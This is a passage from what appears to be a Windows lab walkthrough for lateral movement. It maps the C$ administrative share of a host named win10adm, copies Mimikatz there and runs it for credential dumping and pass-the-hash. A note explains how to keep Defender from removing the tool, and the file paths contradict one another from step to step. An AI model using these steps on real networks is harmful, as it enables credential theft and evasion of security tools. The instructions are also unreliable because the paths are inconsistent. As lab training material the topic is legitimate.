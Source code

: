    **Command (win10client Window):**

   ```bash
   net use x: \\192.168.56.30\C$
   ```

   **Explanation:**

   - `net use`: Maps a network share.
   - `X:`: Assigns the `C$` administrative share on `win10adm` to drive `X:` on `win10client`.

3. **Navigate to the `win10adm` share:**

   - After mapping the `C$` share, change the directory on `win10client` to the share.

   **Command (win10client Window):**

   ```bash
   X:
   ```

   **Explanation:**

   - `X:`: Switches to the mapped `X:` drive, which corresponds to the `C$` share on `win10adm`.
   - `cd X:\Users\Administrator\`: Navigates to the `C:\Users\Administrator\` directory on `win10adm`.

4. **Transfer Tools to `win10adm`:**

   - Copy the **Mimikatz** executable (or other necessary tools) from `win10client` to `C:\temp` on `win10adm`.

   **Command (win10client Window):**

   ```bash
   copy %USERPROFILE%\mimikatz\x64\* X:\Users\Administrator\
   ```

   **Explanation:**

   - `copy`: Copies files from the specified source directory (`%USERPROFILE%\mimikatz\x64\*`) to `C:\Users\Administrator\` on `win10adm` via the mapped drive.

5. **Execute Mimikatz on `win10adm`:**

   - Once the tools are transferred, execute **Mimikatz** on `win10adm` to perform actions such as credential dumping or pass-the-hash attacks.

   **Command (win10adm Window):**

   ```bash
   %USERPROFILE%\mimikatz.exe
   ```

   **Explanation:**

   - This command runs **Mimikatz** from the temporary directory on `win10adm`, allowing you to perform further exploitation, such as dumping credentials or lateral movement.

> **Note:** After performing step 5, execute step 6 as soon as possible. Defender may detect **Mimikatz** during transfer, but executing it quickly locks the file, making it harder for Defender to remove.

---

